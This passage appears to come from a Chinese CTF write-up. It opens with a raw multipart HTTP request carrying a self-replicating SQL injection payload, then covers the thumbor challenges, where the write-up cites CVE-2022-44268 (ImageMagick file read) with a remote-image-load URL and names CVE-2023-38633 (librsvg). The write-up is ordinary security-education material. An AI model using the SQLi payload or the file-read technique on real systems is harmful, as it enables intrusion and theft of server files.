 ```http
Content-Disposition: form-data; name="username"

admin
--a
Content-Disposition: form-data; name="password";filename="password"
Content-Disposition: form-data; name="password";

1' union select 1,2,REPLACE(REPLACE('1" union select 1,2,REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")--',CHAR(34),CHAR(39)),CHAR(36),'1" union select 1,2,REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")--')--
--a--
```

![image-20250316141627677](../assets/image-20250316141627677.png)



### thumbor1

thumbor是一个图片处理服务工具，可以对图片进行动态调整

附件只有一个dockerfile

可以起个docker拿一下源码

![image-20250316142606897](../assets/image-20250316142606897.png)

这题不是因为thumbor有问题，而是因为thumbor的一个组件ImageMagick存在任意文件读取漏洞，也就是CVE-2022-44268。

![image-20250316194653409](../assets/image-20250316194653409.png)

去GitHub找一个POC

[voidz0r/CVE-2022-44268: A PoC for the CVE-2022-44268 - ImageMagick arbitrary file read](https://github.com/voidz0r/CVE-2022-44268)

从readme可以看到这里可以通过类似ssrf的方式远程加载图片

![image-20250316200524558](../assets/image-20250316200524558.png)

在vps上构造好png，远程加载即可

```
http://localhost:8800/thumbor/unsafe/450x/YOUR_IP/图片
```

其实就是复现cve







### thumbor2

dockerfile里面增加了最新版的ImageMagick，其实就是修复了上一题的ImageMagick

这题是另一个组件librsvg的漏洞，CVE-2023-38633
